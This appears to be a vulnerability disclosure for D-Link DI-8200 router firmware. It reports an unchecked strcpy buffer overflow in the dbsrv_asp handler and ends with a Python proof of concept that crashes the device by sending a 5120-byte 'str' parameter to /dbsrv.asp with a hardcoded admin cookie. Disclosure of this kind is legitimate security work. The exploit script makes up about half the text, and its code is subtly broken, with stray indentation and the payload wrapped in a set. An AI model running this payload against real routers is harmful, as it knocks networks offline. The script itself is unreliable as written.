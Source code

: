 Firmware version:

DI_8200-16.07.26A1
	
Download address:

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200

buffer overflow:

dbsrv_asp function has a buffer overflow；v32 length 1200，a1 is the passed parameter，v3 is the value of str，The length is not judged when the strcpy function is executed，This results in an overflow；

![Pasted image 20240808182053](https://github.com/user-attachments/assets/1f359793-53cc-4cae-898c-2bb942af260b)

![Pasted image 20240808181937](https://github.com/user-attachments/assets/63adf1c5-c77b-44fc-a05c-d9b389e9a96c)

![Pasted image 20240808182027](https://github.com/user-attachments/assets/696dd1c3-a0b2-41bb-a02a-8fa4d352b6e3)

FirmAE simulates the firmware overflow process, which eventually causes the program crash page to be inaccessible;

![763b646e75e80fa8437067a478f1836](https://github.com/user-attachments/assets/7d9fbf6d-6e0e-4a70-a46b-44eaf3d81c77)

![3082963502cf0d16241f9d323881892](https://github.com/user-attachments/assets/4c32b65c-d923-4c3b-819e-b57bd0a78727)

![75dfe072da35cfe4dd94491a7bb04b6](https://github.com/user-attachments/assets/ed2979e6-c664-48fa-b39b-eea37628d7a9)


POC：

```
import requests
from pwn import *
    
target_ip = "192.168.0.1"
target_port = 80
  
payload = b'a'*5120
 
url = f"http://{target_ip}/dbsrv.asp?"
 
cookie = {"wys_userid": "admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86"}
 
headers = {
    "Accept": "application/json, text/javascript, */*",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.3    6",
    "Referer": "http://192.168.0.1/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh,en-US;q=0.9,en;q=0.8",
    "Connection": "close"
  }
  
  params = {
      "str":{payload}
  }
 
  requests.get(url, params=params, cookies=cookie)
```
